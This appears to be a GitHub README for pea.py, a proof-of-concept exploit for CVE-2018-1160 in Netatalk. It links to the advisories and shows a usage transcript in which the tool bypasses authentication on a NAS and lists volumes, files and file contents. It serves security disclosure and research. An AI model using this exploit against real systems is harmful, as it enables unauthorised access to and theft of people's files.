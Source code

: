 # pea.py
Pea is a proof of concept exploit that leverages CVE-2018-1160 to control execution flow of Netatalk and bypass authentication. This script was written and tested against Netatalk 3.1.10 on a Seagate NAS.

CVE-2018-1160 was patched in Netatalk 3.1.12.

## Advisory Links
https://github.com/Netatalk/Netatalk/commit/750f9b55844b444b8ff1a38206fd2bdbab85c21f
https://www.tenable.com/security/research/tra-2018-48

## Usage example

```sh
albinolobster@ubuntu:~$ python pea.py -i 192.168.88.252 -lv
[+] Attempting connection to 192.168.88.252:548
[+] Connected!
[+] Sending exploit to overwrite preauth_switch data.
[+] Listing volumes
[+] 2 volumes are available:
	-> jbaines
	-> Public
albinolobster@ubuntu:~$ python pea.py -i 192.168.88.252 -lvc -v jbaines
[+] Attempting connection to 192.168.88.252:548
[+] Connected!
[+] Sending exploit to overwrite preauth_switch data.
[+] Listing files in volume jbaines
[+] Volume ID is 2
[+] Files (3):
	[75] super_secret.txt
	[20] important_dir/
	[18] .DS_Store
albinolobster@ubuntu:~$ python pea.py -i 192.168.88.252 --cat -v jbaines -f super_secret.txt
[+] Attempting connection to 192.168.88.252:548
[+] Connected!
[+] Sending exploit to overwrite preauth_switch data.
[+] Cat file super_secret.txt in volume jbaines
[+] Volume ID is 2
[+] Fork ID: 256
[+] File contents:
I'm a little pea
I love the sky and the trees
I'm a teeny tiny little ant
Checking out this and that

And I am nothing
Ah, so you have nothing to hide

albinolobster@ubuntu:~$
```
